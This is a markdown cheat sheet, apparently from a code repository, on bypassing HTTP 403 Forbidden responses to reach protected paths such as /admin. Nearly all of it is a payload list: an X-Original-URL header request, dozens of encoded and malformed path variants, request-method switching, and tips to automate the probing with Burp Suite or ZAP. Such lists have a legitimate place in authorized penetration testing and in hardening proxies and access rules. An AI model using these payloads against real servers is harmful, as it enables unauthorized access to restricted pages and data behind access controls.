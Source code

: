 ### Bypass 403 (Forbidden) Techniques

#### 1. Using Headers
- **X-Original-URL Header**:
  - Request:
    ```
    GET /anything HTTP/1.1
    Host: target.com
    X-Original-URL: /admin
    ```

#### 2. URL Manipulation
- **Appending %2e**:
  - Original URL: `http://target.com/admin` → 403
  - Bypass URL: `http://target.com/%2e/admin` → 200

- **Adding Dots, Slashes, and Semicolons**:
  - `http://target.com/secret/.` → 200
  - `http://target.com//secret//` → 200
  - `http://target.com/./secret/.` → 200
  - `http://target.com/:/secret` → 200
  - `http://target.com/.i/secret` → 200
  - `http://target.com//;//secret` → 200

#### 3. Changing Request Method
- Change the request method from **GET** to **TRACE** (or other methods like POST, HEAD, OPTIONS).

#### 4. URL Variations
- `url.com/admin/?`
- `url.com//admin//`
- `url.com///admin///`
- `url.com/./admin/.`
- `url.com/admin?`
- `url.com/admin%20?`
- `url.com/admin%20/`
- `url.com/admin/..`
- `url.com/admin/../`
- `url.com/admin/.`
- `url.com/admin/.%20/`
- `url.com/admin/*`
- `url.com/admin//*`
- `url.com/admin/%2f/`
- `url.com/admin/%20`
- `url.com/admin/%20/`
- `url.com/admin/%09`
- `url.com/admin/%09/`
- `url.com/admin/%0a`
- `url.com/admin/%0a/`
- `url.com/admin/%0d`
- `url.com/admin/%0d/`
- `url.com/admin/%25`
- `url.com/admin/%25/`
- `url.com/admin/%23`
- `url.com/admin/%23/`
- `url.com/admin/%26`
- `url.com/admin/%3f/`
- `url.com/admin/#`
- `url.com/admin/#/`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/./admin/`

#### 5. Advanced URL Manipulation
- `url.com/admin/.json`
- `url.com/admin;`
- `url.com/admin/#/.`
- `url.com/./admin`
- `url.com/..;/admin/`
- `url.com/.;/admin/`
- `url.com/;/admin`
- `url.com//;//admin`
- `url.com/%2e/admin`
- `url.com/admin/..;/`
- `url.com/admin.json`
- `url.com/admin%0a`
- `url.com/admin.css`
- `url.com/admin.html`
- `url.com/admin?id=1`
- `url.com/admin~`
- `url.com/admin/é`
- `url.com/admin/-`
- `url.com/admin/..%3B/`
- `url.com/admin/;%2f..%2F..%2F`
- `url.com/ADMIN`
- `url.com/admin/..\\;/`
- `url.com/ADM+IN/`
- `url.com/admin/*/`
- `url.com/admin\\/\\/`
- `url.com/*/admin`
- `url.com/*/admin/`
- `url.com/ADM+IN`

#### 6. Slash Manipulation
- Try using variations like `/`, `//`, `\\`, `/\\`, etc.

#### 7. Request Headers
- Try using all possible request methods (POST, HEAD, OPTIONS, TRACE, etc.).

#### 8. References
- Exploiting HTTP Parsers Inconsistencies: [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) (Nginx ACL)

---

### Tips
- Always test different URL encodings and special characters.
- Experiment with various HTTP headers like `X-Original-URL`, `X-Rewrite-URL`, etc.
- Use tools like Burp Suite or ZAP to automate testing of different request methods and headers.
